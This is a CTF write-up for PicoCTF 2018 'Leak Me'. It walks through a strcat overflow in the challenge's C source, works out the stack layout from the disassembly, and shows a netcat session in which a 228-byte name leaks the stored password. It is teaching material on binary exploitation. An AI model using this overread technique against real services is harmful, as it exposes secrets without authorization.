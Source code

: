 ```yaml
---
title:  PicoCTF 2018 - Leak Me
description: It's still a buffer overflow, but it won't crash and it won't execute code. How will you trick it into revealing its secrets?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Leak Me

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

Spotting this one is trickier. I originally solved this challenge several months ago, but while putting this guide together I attempted to look ahead to this problem and "spot the bug" (with only access to the source code on my phone). I'm ashamed to admit that it was almost an hour of me staring at the thing before I had a good idea what the problem was and how it could be exploited. How long does it take you?

```c
char password[64]; // &[ebp-0x54]
char name[256]; // &[ebp-0x154]
char password_input[64]; // &[ebp-0x194]

memset(password, 0, sizeof(password));
memset(name, 0, sizeof(name));
memset(password_input, 0, sizeof(password_input));

printf("What is your name?\n");

fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}

strcat(name, ",\nPlease Enter the Password.");

file = fopen("password.txt", "r");
if (file == NULL) {
  printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
  exit(0);
}

fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);

fgets(password_input, sizeof(password_input), stdin);
password_input[sizeof(password_input)] = '\x00';

if (!strcmp(password_input, password)) {
  flag();
}
else {
  printf("Incorrect Password!\n");
}
```

Let's go over the steps:

1. Memory for `password`, `name`, and `password_input` is allocated and initialized on the stack.
2. You are prompted for your name (saved in `name`)
3. The file "password.txt" is opened, and read into the `password` variable
4. You are prompted for a password (saved in `password_input`)
5. If your password (`password_input`) matches the password in the file (`password`), then the flag is printed.

First off, we notice that the prompts for `name` and `password` both use `fgets()`, which is considered safe. `fgets` will read up to `size-1` bytes (or the first newline), and will always add a tailing null byte. There is also a call to `printf`, which could be used unsafely, but is fine in this case. Similarly, there are no problems with the calls to `strchr`, `fopen`, `puts`, or `strcmp` in this program.

The conclusion we reach is that the only thing it could be is the call to `strcat` (which is used to concatenate two strings together into one string, using the underlying memory of the first string).

```c
fgets(name, sizeof(name), stdin); // read up to size-1 bytes
// ...
strcat(name, ",\nPlease Enter the Password."); // add 28 characters + null to end of name
// ...
fgets(password, sizeof(password), file); // read the password into password
// ...
printf("Hello ");
puts(name);
```

## Strategy

The strategy, as the name of the challenge suggests, is to "leak" the password before we are required to enter it. We can do this because of the exact memory layout of the stack (we'll go over it in a minute, but it's important to note that this layout is specific to this version of compiler, in general the order of `password`, `name` and `password_input` on the stack isn't well specified). We can also do this because `puts` will continue to output chars until it hits the first null, and knows nothing about the size of memory block associated with `name`.

*If you know what you're doing already, you can attempt the problem by connecting to 2018shell.picoctf.com on port 38315 right now.*

## Background Info

Just like [last time]({% link _reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-1.md %}), let's peak into the assembly and see what memory layout the compiler chose for our stack variables using `objdump -M intel -S ./auth`:

```nasm
sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password)
push   0x0
lea    eax,[ebp-0x54] ; &password
push   eax
call   8048530 <memset@plt> ; memset(password, 0, sizeof(password));
add    esp,0x10

sub    esp,0x4 ; align
push   0x100 ; 0x100 = 256 = sizeof(name)
push   0x0
lea    eax,[ebp-0x154] ; &name
push   eax
call   8048530 <memset@plt> ; memset(name, 0, sizeof(name));
add    esp,0x10

sub    esp,0x4 ; align
push   0x40 ; 0x40 = 64 = sizeof(password_input)
push   0x0
lea    eax,[ebp-0x194] ; &password_input
push   eax
call   8048530 <memset@plt> ; memset(password_input, 0, sizeof(password_input));
add    esp,0x10
```

> **NOTE**: Take a second and observe that the arguments to `memset` are pushed on the stack in the "reverse" order. So, `sizeof(password)` is pushed first, then `0`, then the address of `password`. This may seem odd, but if you consider how the stack works, it means that `&password` is actually first in memory, followed by `0`, and then `sizeof(password)`, which is the order we expect. **Keep this in mind for later challenges**.

Therefore the memory layout for the local variables of our function looks something like this:

| lower addresses | &rArr; | &rArr; | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | :---: | :---: | --- |
| `[esp]` | &lt; temp &gt; | `[ebp-0x194]` | `[ebp-0x154]` | `[ebp-0x54]` | &lt; other &gt; | `[ebp]` |
| | | `password_input`<br/>`[64]` | `name`<br/>`[256]` | `password`<br/>`[64]` | | |

Basically, the `password` variable directly follows the `name` variable in memory. If the string in `name` is long enough to spill into the memory for `password`, then when we read from "password.txt" we will actually write "into" the name string, and the password itself will be written to stdout when `puts(name)` is called.

## Exploitation

How long should our name be? Anything long enough should work, but it'll be easier to read if there is a clear delimiter. If the name is exactly 228 bytes (excluding newline), then appending 28 bytes will completely fill the `name` buffer, and the tailing null byte will end up as the first byte of the `password` variable. That byte will then be overwritten when the `password` is loaded. When the `name` string is printed out, the password will be all the characters following the `'.'` at the end of the prompt.

Here's 228 "U"s for you to copy-paste, as generated by `python3 -c 'print("U"*228)'`
```
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```

**NOTE**: this challenge requires to connect to a specific port on the server. To do this, you can install the netcat package on most linux distros and on windows. You could also connect to the port using `pwntools` or similar. `netcat` is already installed on the shell server.

```
$ nc 2018shell.picoctf.com 38315
What is your name?
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Hello UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_f85406

a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{===REDACTED===}
```
{:.contains-term}

When prompted, enter 228 characters and then press enter. It will then reply "Hello <228 chars>, Please Enter the Password.`<password>`" where the actual password will be printed out after the `'.'`. You then copy-paste the password and hit enter, at which point it will print the flag for you. In my case, the password was "a_reAllY_s3cuRe_p4s$word_f85406".

Now that you've solved **Leak Me**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.
